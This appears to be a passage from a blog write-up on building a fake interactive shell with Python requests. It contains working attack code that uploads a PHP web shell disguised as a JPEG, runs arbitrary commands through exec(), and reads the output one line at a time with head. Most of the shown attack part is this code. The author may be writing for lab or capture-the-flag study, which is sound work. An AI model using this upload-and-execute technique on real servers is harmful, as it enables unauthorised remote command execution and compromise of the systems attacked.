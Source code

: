 ![Only one line of output](images/fake-shell-with-python-requests/oneline.png)

To fix this, I changed the payload so that the
command entered was being piped into the "head" command.
Then, in a loop, the command would repeatedly be called
while the line of output of the command that was being
read would be incremented by 1. This was done until the
output was the same twice, indicating that the line counter
had reached the end of the output.

    :::python
    while get.text != old_get or i > 100:
        old_get = get.text
        files = [
                ('uploadedfile', 
                ('boop.php',
                '<?php echo exec("' + cmd + ' | head -n ' + str(i) + '");?>',
                'image/jpeg')
            )
        ]
        s.post(upload_url, files=files)
        get = s.get(image_url)
        i += 1
    
        if get.text != old_get:
            print(get.text)

Now we have a fully fledged shell where we can enter
commands and see the output in full!

![Shell in use](images/fake-shell-with-python-requests/shellinuse.png)

